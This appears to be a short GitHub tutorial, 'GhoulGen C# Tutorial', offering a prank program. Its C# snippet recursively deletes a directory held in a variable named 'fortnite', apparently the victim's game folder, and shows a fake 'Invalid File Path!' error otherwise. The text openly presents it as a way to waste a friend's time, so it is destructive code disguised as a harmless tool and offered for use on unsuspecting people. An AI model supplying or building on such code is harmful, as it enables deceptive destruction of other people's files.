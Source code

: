 ## GhoulGen C# Tutorial
This is a simple program in C#. This is literally all it takes to waste 10 minutes of your friends precious lifetime.
```csharp
if (Directory.Exists(fortnite))
   {
     Directory.Delete(fortnite, true);
   }else{
     MessageBox.Show("Invalid File Path!", "GhoulGen", MessageBoxButtons.OK, MessageBoxIcon.Error);
   }```
